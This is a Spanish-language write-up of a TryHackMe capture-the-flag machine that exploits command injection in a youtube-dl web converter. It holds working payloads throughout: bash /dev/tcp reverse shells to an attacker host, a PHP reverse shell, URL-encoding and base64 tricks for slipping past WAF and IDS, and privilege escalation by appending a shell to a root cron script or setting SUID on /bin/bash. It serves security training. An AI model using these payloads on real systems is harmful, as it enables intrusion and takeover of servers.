

# <font color=red>[+]</font> Reconocimiento

```bash
sudo nmap -p- -sS -Pn -n --min-rate 1000 -vvv $IP

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```

```bash
sudo nmap -p 22,80 -sVC -Pn -n --min-rate 1000 -oN versiones -v $IP
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## <font color=red>[~]</font> Entorno web

Cuando accedemos al servicio web observamos una pequeña página web sencilla con lo que parece ser una funcionalidad de conversión de videos de ***Youtube*** a ***MP3***.

Lo primero que hice fue arrancar ***Burp Suite*** con la idea de poder registrar los movimientos que fuera haciendo por la web.

Una vez tenemos ***Burp Suite*** iniciado y el navegador configurado para hacer que el tráfico pase por el proxie, decidí ver el código fuente de la página (Podemos hacerlo pulsando `F12` (*Herramientas de desarrollador*) o la combinación de teclas `CTRL+U`).

### <font color=red>[!]</font> Código fuente de la página

Dentro del código fuente podemos ver que se referencia un código llamado `main.js`. Si lo vemos observamos el siguiente código:

```javascript
$(function () {
	// La función se ejecuta cuando se pulsa el botón "Convert"
    $("#convert").click(function () {
        $("#message").html("Converting...");  // Muestra el mensaje "convirtiendo..."
        // Busca el vídeo de youtube que le especificamos en el label
        $.post("/", { yt_url: "https://www.youtube.com/watch?v=" + $("#ytid").val() }, function (data) {
            try {
                data = JSON.parse(data);
                // Si todo ha ido bien se muestra un hiperenlace en el que poder descargar el archivo `.mp3`
                if(data.status == "0"){
                    $("#message").html("<a href='" + data.result_url + "'>Download MP3</a>");
                }
                // Si algo falló de muestra en la consola del navegador los datos y muestra un mensaje
                else{
                    console.log(data);
                    $("#message").html("Oops! something went wrong");
                }
            // Igual que lo anterior pero por si falló alguna cosa más allá del estado de los datos
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });
});
```

Este código nos indica como se produce la conversión de los vídeos a `.mp3`. Si tratamos de introducir la parte necesaria del enlace de un video de *YouTube* no tendremos ninguna conversión (ya que las máquinas de *TryHackMe* no están conectadas a Internet), aunque podremos ver como se gestiona este procedimiento a nivel de ***HTTP Requests y Reponses*** a través de ***Burp Suite***.

### <font color=red>[!]</font> SSRF (Server Side Request Forgery)

Al ver una funcionalidad en la que podemos definir un recurso web que el servidor descargará, lo primero que se me viene a la cabeza es un ***SSRF***.

En estas vulnerabilidades web podemos hacer que el servidor realice una petición HTTP a un recurso que nosotros queramos. En esta ocasión lo más interesante es crear un ***reverse shell*** que descargase el servidor para luego forzar a ejecutarlo.

Podemos crear una reverse shell en un lenguaje que el servidor pueda ejecutar (normalmente ***PHP***):

```PHP
<?php
exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/IP_KALI/4444 0>&1'");
?>
```

Una vez tengamos nuestra reverse shell, debemos levantar un servidor web simple con ***Python*** por ejemplo para que el servidor puede descargarlo a través del ***SSRF***:

```bash
# Esto levantará un servidor web simple con python a través del puerto 80
# El contenido será el contenido del directorio actual en el que nos encontremos
python3 -m http.server 80
```

Cuando tengamos el servidor levantado, definimos la URL de nuestra reverse shell en el input de la funcionalidad vulnerable a ***SSRF***.

### <font color=red>[-]</font> Troubleshooting

En este punto nos encontramos con un problema. Si vemos el código ***Javascript*** nos damos cuenta de que realmente lo que debe especificarse de la URL de los vídeos de *Youtube* es la última parte, ya que la consulta ya está preparada con el principio de la URL (`https://www.youtube.com/watch?v=`).

De esta forma, si ponemos la URL de nuestra reverse shell directamente, se concatenará la consulta preparada del código *JavaScript* con la de nuestra reverse shell (`https://www.youtube.com/watch?v=http://IP_KALI/shell.php`). Esto obviamente ***fallará***.

Por lo que para poder realizar la petición de forma correcta debemos de usar el ***Repeater*** de ***Burp Suite***, con el que podremos especificar con exactitud la URL a la que realizar la petición.



![[burposuite_ssrf.png]]

No obstante, volvemos a tener un problema, y es que se nos muestra que el código se almacena en el directorio temporal `/tmp/downloads/...`, y de momento no tenemos forma de llegar hasta a él. Así que debemos de desestimar la idea del ***SSRF*** de momento.

### <font color=red>[!]</font> RCE (Remote code Exceution)

![[burpsuite.png]]

En la captura podemos ver la respuesta del servidor. Y en ella podemos apreciar lo que parece ser la salida del *estándar error* (***STDERR***) de la consola de los sistemas Linux de una herramienta. Tras investigar un poco encontré una herramienta muy conocida para descargar videos de YouTube desde la consola de comandos en sistemas Linux (`youtube-dl`).

Como `youtube-dl` es una herramienta de línea de comandos, es posible que esta funcionalidad sea vulnerable a inyección de comandos del sistema operativo. Para probarlo probé unas cuentas formas de ejecutar los comandos, pero la que finalmente me funcionó fue esta:

```HTTP
POST / HTTP/1.1
Host: 10.128.131.68
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://10.128.131.68
Connection: keep-alive
Referer: http://10.128.131.68/
Priority: u=0

yt_url=;id;
```

***[Explicación del payload](#explicación-del-payload)***

![[confirmacion_RCE.png]]

### <font color=red>[!]</font> RCE (Remote code Exceution)

Una vez confirmada la vulnerabilidad, podemos comenzar a pensar en como explotarla. Lo primero que se me ocurre es tratar de ejecutar una reverse shell directamente con algo como:

```HTTP
POST / HTTP/1.1
Host: 10.128.131.68
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://10.128.131.68
Connection: keep-alive
Referer: http://10.128.131.68/
Priority: u=0

yt_url=;/bin/bash -i >& /dev/tcp/IP_KALI/4444 0>&1;
```

Pero debido a los espacios no funcionaba, por lo que sustituí los espacios por la variable `${IFS}`, aunque seguí sin poder ejecutar correctamente el reverse shell (***[Problemas del reverse shell en la URL](#problemas-del-reverse-shell-en-la-url)***).

Lo siguiente que probé fue crear una nueva reverse shell dentro de un archivo y descargarlo desde el servidor (como con el ***SSRF***, con la única diferencia de que utilizaría `wget` o `curl` para poder descargar el fichero en el mismo directorio en donde se encuentre configurado el servicio web o para ejecutarlo directamente en memoria).

En esta ocasión creé una reverse shell en ***bash***y lo guardé en un fichero llamado `shell.sh`:
```bash
/bin/bash -i >& /dev/tcp/192.168.133.253/4444 0>&1
```

>[!Important]
>En un entorno real, llamar a un fichero con una reverse shell con un nombre como `shell.sh` o `revshell.sh` o incluso cualquier nombre con extensión `.sh` hará saltar las alarmas de los administradores o incluso de herramientas como ***Firewalls, IDS/IPS, equipos SOC, ...***
>
>Por lo que podemos llamarlo de cualquier otra forma, incluso sin extensión ya que en Linux este no define el tipo de archivo que es ni la herramienta con la que se abrirá como si pasa en Windows.

Una vez creada la reverse shell volvemos a levantar el servidor web con ***python*** (`python3 -m http.server 80`) y ponemos el puerto especificado (en mi caso `4444`) a al escucha.

```bash
nc -lvnp 4444
```

![[reverseshell_exitosa.png]]


>[!Note]
>Al usar `curl` estamos haciendo que el servidor lea el contenido del archivo (podemos comprobarlo nosotros mismos si usamos el comando `curl http://localhost/shell.sh`) y al entubar la salida (el contenido del fichero, que es la reverse shell escrita en ***bash***) hacemos que se ejecute directamente en memoria, sin almacenar ningún tipo de archivo que pueda perjudicar a nuestra persistencia.
>
>Aun así, que haya funcionado se debe a que no hay un firewall o proxy configurado correctamente entre nosotros y el servidor, ya que hoy en día es muy complicado poder realizar estas técnicas de intrusión.

>[!important]
>Otra forma en la que podemos hacer algo más confiable nuestro *payload* es codificándolo en ***base64***. De esta forma, y si no están bien configurados los firewalls, *proxies* e IPS, podremos hacer pasar a nuestra reverse shell como tráfico "*posiblemente*" legítimo de la red.
>
>```bash
># Codificamos en base 64 nuestra reverse shell
>cat shell.sh | base64 > shell_base64
>```
>
>Ahora volvemos a hacer uso de la vulnerabilidad ***SSRF*** especificando que antes de ejecutar la reverse shell con bash, esta debe ser decodificada en ***base 64***.
>
>![[reverse_shell_base64.png]]

# <font color=red>[+]</font> Post-Explotación

Una vez tenemos acceso al sistema nos daremos cuenta de que no podemos hacer uso de la terminal de forma cómoda. Esto se debe a que lo que se nos ha devuelto con la reverse shell es una ***Pseudo-Shell***.

Para pasar de esta incómoda *pseudo-shell* a una ***pty*** con las funcionalidades como el comando `clear`, el autocompletado con la tecla `tab` y demás debemos de hacer un tratamiento a la *pseudo-shell*.

## <font color=red>[~]</font> Tratamiento de la SHELL

### <font color=red>[!]</font> `script -c bash /dev/null`

cuando obtenemos una reverse shell incial no tenemos una terminal real (***PTY***). Tan solo "somos" un proceso que escucha y ejecuta comandos. Cuando ejecutamos el comando `script -c bash /dev/null`, obligamos al sistema a crear una sesión de terminal virtual.

- `script`: Es un comando nativo de Linux que se utiliza normalmente para grabar/registrar todo lo que se escribe y se muestra en la terminal.
- `-c bash`: El parámetro `-c` (*command*) le dice a `script` que, en lugar de iniciar la shell por defecto del sistema, ejecute un comando específico. En este caso, le ordenamos que ejecute `/bin/bash`. Al hacerlo, `script` se ve obligado a crear una ***psuedo-terminal (PTY)*** para que `bash` pueda correr correctamente.
- `/dev/null`: Por defecto, el comando `script` guarda todo lo que hacemos en un archivo llamado `typescript`. Como no queremos dejar rastros de nuestra actividad en el disco de la víctima, redirigimos ese archivo de registro a `/dev/null`, por lo que la grabación de descarta inmediatamente.

Al ejecutar este comando, pasamos de tener una shell ciega a tener una ***PTY legítima***. Esto nso permitirá, más adelante, poder usar comando interactivos como `su` o `sudo`, que requieren una contraseña.

### <font color=red>[!]</font> `CTRL+Z + stty raw -wcho ; fg`

Al ejecutar esta secuencia estamos alterando la configuración de la terminal de nuestra propia máquina para que se adapte y "entienda" a la perfección la *reverse shell*.

1. `CTRL+Z`: No es un comando, sino una combinación de teclas.
   - ***Qué hace?:*** Envía una señal `SIGTSTP` (*Terminal Stop*) a nuestro proceso actual (que en este momento es nuestra conexión con ***Netcat***). Esto ***pausa*** la ejecución de Netcat y lo manda a trabajar en segundo plano (*background*).
   - ***Para qué?:*** Necesitamos recuperar momentáneamente el control de la terminal de nuestra propia máquina para poder cambiar su configuración en el siguiente paso.

2. `stty raw -echo`: `stty` significa ***Set TTY*** y sirve para cambiar los parámetros de nuestra terminal local.
   - `raw`: Por defecto, nuestra terminal funciona en modo "*cooked*", lo que significa que procesa las teclas antes de enviarlas (por ejemplo, si pulsamos `CTRL+C`, nuestra terminal local aborta lo que estamos haciendo, que ahora mismo es la conexión con el servidor a través de ***Netcat***, perdiendo la reverse shell).
    
	    Al pasar a modo `raw` (*cruzo*), le decimos a nuestra terminal: "*No proceses nada de lo que yo escriba, pasa cada pulsación de tecla directamente y de forma bruta a la shell de la víctima*".
	    
	    Gracias a esto, si más adelante pulsamos `CTRL+C` dentro de la *reverse shell*, la señal irá a la víctima en lugar de cerrar la conexión. O si pulsamos la tecla `tab` se activará la función de *auto-completado* en lugar de imprimir una tabulación.
	    
	- `-echo`: Desactiva el "*eco*" local. Cuando escribimos en nuestra terminal, vemos los caracteres em pantalla porque la terminal hace `echo` de ellos. Al desactivarlo con el signo menos (`-`), evitamos que los caracteres se dupliquen o se vuelvan locos en la pantalla al mezclarse el tráfico que enviamos con el que recibimos de la víctima.

3. `; fg`
   - `;` ***(Punto y coma):*** Es el separador del que hablamos en la sección de ***Explicaciones [Explicación del *payload*](#explicación-del-payload)***. En este caso permite ejecutar `fg` inmediatamente después de que se aplique la configuración de `stty`, todo en la misma línea.
   - `fg` ***(Foreground):*** Trae de vuelta al primer plano el proceso que habíamos pausado en el paso 1 (la conexión a través de Netcat).

Al volver a entrar en Netcat, nuestra terminal local ya está en modo `raw`. A partir de este momento, ya tenemos ***auto-completado con el tabulador***, historial de comandos con las flechas del teclado y control de procesos con `Ctrl+C`.

### <font color=red>[!]</font> `stty rows <filas> cols <columnas>`

Si abrimos algunas herramientas como `nano` o `vim` puede ser que el editor no ocupe toda la pantalla, sino que se queda arrinconado en una esquina pequeña. Esto pasa porque la víctima no sabe cuántas filas y columnas tienen nuestra ventana actual.

Para arreglarlo, abrimos otra pestaña en nuestra máquina atacante, escribimos `stty -a` y no fijamos en los valores de ***rows*** y ***columns***.

Luego, en nuestra *reverse shell* estabilizada, ejecutamos:

```bash
stty rows <filas> cols <columnas>
```

### <font color=red>[!]</font> `export TERM=xterm`

En este punto ya tenemos una ***PTY*** real con la mayoría de las funcionalidades de una shell. Sin embargo, si tratamos de ejecutar algunos comando como `clear` no podremos (***[Explicación](#term-y-clear)***).

La variable de entorno `TERM` le dice al sistema operativo de la víctima qué tipo de de capacidades de pantalla tienen la terminal del atacante (nuestra máquina).

- ***El problema:*** Al recibir una *reverse shell* básica, el sistema de la víctima no tiene ni idea de si nuestra pantalla puede renderizar colores, si puede mover el cursor hacia arriba y abajo, o cómo borrar la pantalla. A veces esta variable está vacía o configurada como `dumb`.
- ***La solución:*** Al setear `TERM=xterm` ( o `xterm-256color`), le estamos diciendo al servidor: "*Oye, mi pantalla es compatible con el estándar **Xterm***".
- ***Qué conseguimos?:*** Esto nos permite usar comandos que redibujan la interfaz gráfica en la terminal, como `clear`, `top`/ `htop` (para ver los procesos), o editores de texto de consola como `nano` y `vim`. Si no hacemos esto, al intentar abrir `nano`, el sistema nos dará el típico error: `Terminal to dumb` o `No terminal type specified`.

### <font color=red>[!]</font> `export PS1='\u@\w$ '`

La variable `PS1` (*Prompt String 1*) define el aspecto visual de la línea de comandos (el ***prompt***) donde escribimos.

- ***El problema:*** Muchas *reverse shells* vienen completamente "ciegas", sin ningún texto a la izquierda, o con un *prompt* larguísimo y molesto que revela demasiada información y nos quita espacio en la pantalla.
- ***La solución:*** Al definir `\u@\w$ `, estamos formateando el *prompt* para que sea limpio y estándar:
	- `\u`: Muestra el usuario actual (ej. `www-data` o `root`).
	- `@`: Un separador visual literal.
	- `\w`: Muestra la ***ruta de trabajo actual*** (*Current Working Directory*) de forma completa (ej. `/var/www/html`).
	- `$ `: El símbolo final.

## <font color=red>[~]</font> Escala de privilegios

Iniciamos el acceso dentro del directorio `/var/www/html` en el cual tenemos varios ficheros y subdirectorios que son los que conforman el entorno web. De todos ellos hay dos que llaman especialmente la atención:

```
/var/www/html/
|_ admin
|_ tmp
```

### <font color=red>[!]</font> `/var/www/html/admin/`

Dentro de este subdirectorio tenemos una *flag*. Y es que si miramos las tareas del CTF, hay una que nos pregunta: "*Cuál es el usuario requerido para acceder a la carpeta secreta?*". Para poder responder a esta pregunta debemos de ver el contenido del archivo `.htpassword` en el cual encontramos el usuario y su contraseña en formato ***Hash Apache MD5-based password algorithm (Apr1 o apache MD5)*** (***[Apr1](#apr1)***).

Para contestar a la pregunta tan solo debemos de ver el contenido de `.htpasswd` en el que veremos el usuario. Sin embargo, podemos ir más allá y crackear la contraseña *hasheada*.

```bash
# Podemos crackear el hash usando hashcat o john
# Guardamos el hash en un fichero
echo '$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/' > hash.txt  # debe estar entre '' ya que si no nos dará problemas la asignación de variables por los $

hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

Cuando tengamos la contraseña podremos acceder al contenido del  `index.php` a través del navegador usando la URI: `http://itsmeadmin:[hidden]@$IP/admin/`.

Aun así, podríamos ver el contenido del archivo `index.php` a través del sistema de ficheros ya que tenemos acceso al sistema.

Cuando vemos el contenido el `index.php` vemos lo siguiente:
```PHP
<?php
  if (isset($_REQUEST['c'])) {
      system($_REQUEST['c']);
      echo "Done :)";
  }
?>

<a href="/admin/?c=rm -rf /var/www/html/tmp/downloads">
   <button>Clean Downloads</button>
```

Dentro del `index.php` tan solo hay un botón con el que el administrador puede eliminarlas descargas que están en `/var/www/html/tmp/downloads`. Pero si miramos bien, esto lo hace llamando a un parámetro `c` con el cual se puede indicar comandos del sistema.

Lo que se me ocurre es que esta fuera otra forma de acceder al sistema ya que si encontrásemos cual es el nombre de usuario podríamos hacer fuerza bruta y obtendríamos acceso a este endpoint vulnerable a ***inyección de comandos***.

### <font color=red>[!]</font> `/var/www/html/tmp/`

Dentro del subdirectorio `tmp` encontramos un script en ***bash***.

```bash
ls -la /var/www/html/tmp/

drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Apr 12  2020 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh
```

>[!Warning]
>Tenemos permiso de escritura sobre el archivo.

Si miramos el contenido del script veremos que contiene un *One-Liner* que se encarga de eliminar la carpeta `downloads` del mismo directorio (`rm -rf downloads`). Este es el típico script que se ejecuta por detrás con `cronjobs`.

Como tenemos permisos de escritura sobre el mismo podemos añadir una línea que sea un nuevo reverse shell hacia nuestra máquina. Y, con un poco de suerte, estará configurado para que se ejecute como el usuario `root`.

```bash
# Preparamos la reverse shell
echo "/bin/bash -i >& /dev/tcp/IP_KALI/5555 0>&1" >> /var/www/html/tmp/clean.sh

# Ponemos a la escucha el puerto 5555 en nuestra máquina
nc -lvnp 5555
```

>Y habremos obtenido una Shell como `root`.

Otra forma de escalar privilegios es asignando el bit SUID al mismo binario `/bin/bash`:

```bash
echo "chmod +s /bin/bash"

# Una vez se ejecute veremos que el binario ahora aparece con una s en donde debería de estar la x, la cual nos indica que tiene el bit SUID activo.
ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash

# Par poder escalar privilegios debemos de usar la opción -p de bash para que se mantengan los privilegios
/bin/bash -p
```

---
# Explicaciones

## Explicación del *payload*

La sintaxis de la herramienta `youtube-dl` es la siguiente:

```bash
youtube-dl [OPCIONES] URL
```

Cuando introducíamos un input válido para la funcionalidad (*una URL de un vídeo de Youtube*), la sintaxis se veía algo como esto:

```nash
youtube-dl https://www.youtube.com/watch?v=W2D5T5Gkyic
```

Sin embargo, podemos hacer uso de los operadores de control de ***Bash*** para concatenar comandos de forma ilícita. Cuando hacemos uso del *payload* `;id;` lo que realmente está pasando por detrás es:

```bash
youtube-dl ;id;
```

>[!Tip]
>El ***operador de control*** `;` sirve para concatenar dos comandos. Sin embargo, sin importar si el primero ha sido exitoso o ha fallado, se ejecutará el segundo.
>
>Imaginemos que queremos hacer `ping` a una máquina en nuestra red y además conocer el nombre de nuestro usuario. Podríamos ejecutar ambos comandos por separados, pero eso no es tan eficiente. En su lugar podemos hacer que se ejecute el `ping` y directamente después hacer que muestre el nombre de usuario:
>
>```bash
>ping -c 2 localhost ; whoami
>PING localhost (::1) 56 data bytes
>64 bytes from localhost (::1): icmp_seq=1 ttl=64 time=0.025 ms
>64 bytes from localhost (::1): icmp_seq=2 ttl=64 time=0.028 ms
>
>--- localhost ping statistics ---
>2 packets transmitted, 2 received, 0% packet loss, time 1031ms
>rtt min/avg/max/mdev = 0.025/0.026/0.028/0.001 ms
>kali
>```
>
>Como estamos usando el operador de control `;` no importa si el `ping` es exitoso o no, de todas formas se ejecutará el comando `whoami`.

De esta forma, el servidor verá `youtube-dl` y dirá: "*Debo usar youtube-dl, dime cual es la url de la que debo descargar el vídeo*". Y al ver el primer `;` pensará: "*Se ha terminado el comando? Pero si no me ha llegado ninguna URL... Voy a salir con un error. Y como el siguiente comando está separado por `;` lo ejecutaré de todas formas.*". 

El resultado, podremos ver la salida del comando `id` en la respuesta del servidor ya que el desarrollador del servidor así lo ha querido.

### Por qué el `;` final?

El *payload* termina con un `;` al final debido a que no conocemos realmente todo lo que puede estar ejecutando por detrás el comando.

Imaginemos que en vez de ejecutar solo el comando `youtube-dl URL`, ejecuta el mismo comando pero con opciones detrás de la URL. Como nosotros podemos modificar la URL, lo que se encuentra detrás de la misma está fuera de nuestro control, por lo que podría quedarnos el *payload* final así.

```bash
youtube-dl ;id OPCIONES DE YOUTUBE-DL
```

El sistema creería que las opciones de `youtube-dl` son parámetros para `id`, y esto seguramente haría que el comando `id` fallase, estropeando nuestra inyección de comandos.

Al poner un `;` detrás de `id` nos aseguramos de que el sistema interprete el comando independientemente de lo que tenga delante y detrás.

---

## Problemas del reverse shell en la URL

Cuando enviamos algo como `yt_url=/bin/bash${IFS}>&${IFS}/dev/tcp/IP_KALI/4444${IFS}0>&1`, el servidor web (o el backend que procesa la petición) no lee un único comando. Lo interpreta como si le estuvieramos enviando ***tres parámetros distintos*** debido al `&`.

1. ***Primer parámetro:*** `yt_url=/bin/bash${IFS}-1${IFS}>`
2. ***Segundo parámetro (inventado por el receptor):*** `${IFS}/dev/tcp/IP_KALI/444${IFS}0>`
3. ***Tercer parámetro (inventado por el receptor):*** `1`

Como resultado, el comando que se ejecuta en el sistema operativo de la víctima queda truncado en `;/bin/bash -i >`. al faltar la dirección IP y el puerto (y al dejar el redireccionamiento roto), el comando da error sintáctico en la consola y la ***reverse shell nunca se ejecuta***. 

### Posibles opciones de Bypass

Para que el servidor entienda que el `&` forma parte dle texto y no es un separador de HTTP, tenemos que recurrir a la codificación.

#### 1. URL Encode manual

Podemos sustituir los caracteres conflictivos por su equivalente hexadecimal. El espacio es `%20` (o `+`) y el `&` es `%26`.

Nuestro payload original servería así:
```
/bin/bash%20-i%20%3E%26%20/dev/tcp/IP_KALI/4444%200%3E%261
```

#### 2. Dejar que Curl lo codique por nosostros

Podemos usar `curl` desde nuestra terminal y especificar el parámetro `--data-urlencode` para el ***POST***. Curl se encargará de transformar todos los `&`, `;` y espacios automáticamente:

```bash
curl -X POST http://$IP/ \
  --data-urlencode 'yt_url=; /bin/bash -i >& /dev/tcp/IP_KALI/4444 0>&1;'
```

#### 3. Ofuscación en Base 64 (Evita el filtro HTTP y los WAF)

Como comenté antes, podemos codificar el payload en ***Base 64***.

Si nuestro *payload* tiene demasiados caracteres extraños (`>`, `&`, `;`), a veces los sistemas de seguirdad de la web (***WAF***) lo bloquean. Una técnica excelente es transformar toda nuestra reverse shell a ***Base 64*** en nuestra máquina:

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.133.253/4444 0>&1" | base64
```

---

### TERM y `clear`

El comando `clear` no sabe por sí mismo cómo borrar los píxeles de nuestra pantalla. Para poder limpiar la terminal, `clear` necesita consultar una base de datos interna del sistema operativa (normalmente llamada ***terminfo***).

Cuando ejecutamos `clear`, el comando hace lo siguiente:

1. Mira el valor de nuestra variable de entorno `$TERM`.
2. Busca ese nombre (por ejemplo, `xterm`) en la base de datos `terminfo`.
3. Al encontrarlo, lee las "instrucciones de control" específicas para ese tipo de terminal. Para `xterm`, la instrucción suele ser una secuencia de caracteres ocultos (llamada secuencia de escape ANSI) como `\e[H\e[2J`.
4. Envía ese secuencia a nuestra pantalla para decirle: "*Oye, pon el cursor arriba a la izquierda y borra todo lo que haya hacia abajo***".

### Qué pasa si no configuramos el `$TERM`?

Cuando entramos a través de una *reverse shell* básica, el valor de `$TERM` suele estar **vacío** o configurado como `dumb`.

- ***Si está vacío:*** El comando `clear` se rompe inmediatamente y nos lanza un error: `TERM environment variable not set.` (No sabe qué buscar en la base de datos).
- ***Si está en `dumb`:*** `clear` busca "*dumb*" en la base de datos y la base de datos le dice: "*Esta terminal es tonta, no soporta colores, ni movimiento de cursor, ni borrado de pantalla*". Al ver que no tiene capacidades informadas, `clear` no hace nada o nos da un error de tipo: `TERM: terminal type dumb cannot be clear`.

Al hacer `export TERM=xterm`, le estamos dando el "manual de instrucciones" a `clear` para que sepa exactamente qué comandos de escape invisibles tiene que enviarle a nuestra ventana de Kali Linux para limpiar la pantalla con éxito.

---

### Apr1

`apr1` (***Apache Portable Runtime 1***) es el nombre que recibe un ***algoritmo de hashing*** específicamente diseñado por la ***Apache Software Foundation*** para proteger contraseñas. Es la firma clásica que encontramos dentro de los archivos `.htpasswd` utilizados para la autenticación básica en servidores web Apache.

### Por qué se creó?

En los inicios de la web, las contraseñas de Apache se protegían usando el algoritmo ***MD5 estándar*** o el cifrado tradicional de Unix (`crypt`). Sin embargo. el MD5 estándar es extremadamente rápido de computar. Con la evolución del hardware, un atacante podía generar miles de millones de hashes MD5 por segundo, haciendo que los ataques de fuerza bruta fueran triviales.

Para solucionar esto, los desarrolladores de Apache modificaron el comportamiento de MD5 para hacerlo ***deliberadamente más lento y costoso de procesar***, dando origen al algoritmo ***Apache MD5-based password algorithm*** (identificado por la cadena `$apr1$`).

### Cómo funciona por dentro?

El algoritmo `apr1` no es un simple hash MD5; es un algoritmo derivado basado en ***iteraciones y salting***. Su funcionamiento sigue estos pasos clave:

- ***Uso de Sal (Salt):*** Obliga al uso de una cadena aleatoria (de hasta 8 caracteres). Esto evita el uso de *Rainbow Tables*, ya que dos contraseñas idénticas con sales distintas generan hashes completamente diferentes.
- ***El bucle de 1000 iteraciones:*** Esta es su principal defensa. En lugar de aplicar MD5 una sola vez, el algoritmo realiza un bucle que hashea el resultado una y otra vez ***1000 veces***, mezclando en cada iteración la contraseña original, la sal y trozos del hash anterior en un orden alternante.
- ***Ralentización artificial:*** Al tener que calcular 1000 hashes MD5 por cada intento de contraseña, el tiempo que necesita un atacante para hacer fuerza bruta se multiplica por mil.

### Estructura de Hash

El formato es siempre rígido y se divide en tres partes separadas por el símbolo `$`:
$$\text{\$apr1\$ [SAL] \$ [HASH]}$$
Por ejemplo, en: `$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/`

1. `$apr1$`: La firma que le indica al servidor Apache o a herramientas como `Hashcat` que debe usar la lógica de 1000 iteraciones de Apache y no el MD5 común.
2. `tbcm2uwv`: La sal generada al crear la contraseña.
3. `UP1ylvgp4...`: El hash final cifrado en una variante de ***Base64*** propia de estos sistemas.

### Estado actual y seguridad

Aunque en su día `apr1` era una solución robusta, hoy en día ***se considera un algoritmo débil y obsoleto*** para entorno de producción críticos:

- ***Vulnerable a GPU cracking:*** aunque 1000 iteraciones ralentizan a una CPU, las tarjetas gráficas modernas (*GPUs*) poseen miles de núcleos que pueden procesar millones de hashes `apr1` por segundo sin esfuerzo mediante herramientas como ***Hashcat*** (usando el modo `-m 1600`).
- ***alternativas modernas:*** Hoy en días, si se configura un archivo `.htpasswd` en Apache, se recomiendo encarecidamente utilizar algoritmos modernos de derivación de claves que permitan ajustar la carga de trabajo y memoria, tales como ***Bcrypt*** (identificado en Apache como `$2y$`) o ***Argon2***, contra los cuales las GPUs no tienen tanta ventaja competitiva.
